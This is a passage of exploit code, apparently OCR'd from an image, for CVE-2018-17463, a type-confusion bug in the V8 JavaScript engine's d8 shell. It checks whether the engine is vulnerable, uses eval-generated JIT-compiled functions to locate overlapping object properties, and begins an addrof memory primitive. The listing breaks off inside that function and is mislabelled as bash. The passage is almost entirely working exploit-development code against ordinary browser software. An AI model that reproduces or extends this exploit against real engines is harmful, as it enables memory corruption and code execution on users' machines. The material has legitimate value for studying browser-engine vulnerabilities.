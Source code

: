 ```bash

  for (let i = 0; i < 10000; i++) {
    let x = { a: 0x1234 };
    x.b = 0x5678;
    let res = vuln(x);
    if (res != 0x5678) {
      log("CVE-2018-17463 exists in the d8");
      return;
    }

  }
  throw "bad d8 version";

}

function getObj(values) {
  let obj = { a: 1234 };
  for (let i = 0; i < 32; i++) {
    Object.defineProperty(obj, 'b' + i, {
      writable: true,
      value: values[i]
    });
  }
  return obj;
}

let p1, p2;

function findOverlapping() {
  let names = [];
  for (let i = 0; i < 32; i++) {
    names[i] = 'b' + i;
  }

  eval(`
    function vuln(obj) {
      obj.a;
      this.Object.create(obj);
      ${names.map((b) => `let ${b} = obj.${b};`).join('\n')}
      return [${names.join(', ')}];
    }
  `)

  let values = [];
  for (let i = 1; i < 32; i++) {
    values[i] = -i;
  }

  for (let i = 0; i < 10000; i++) {
    let res = vuln(getObj(values));
    for (let i = 1; i < res.length; i++) {
      if (i !== -res[i] && res[i] < 0 && res[i] > -32) {
        [p1, p2] = [i, -res[i]];
        return;
      }
    }
  }
  throw "[!] Failed to find overlapping";
}

function addrof(obj) {
  eval(`
  function vuln(obj) {
```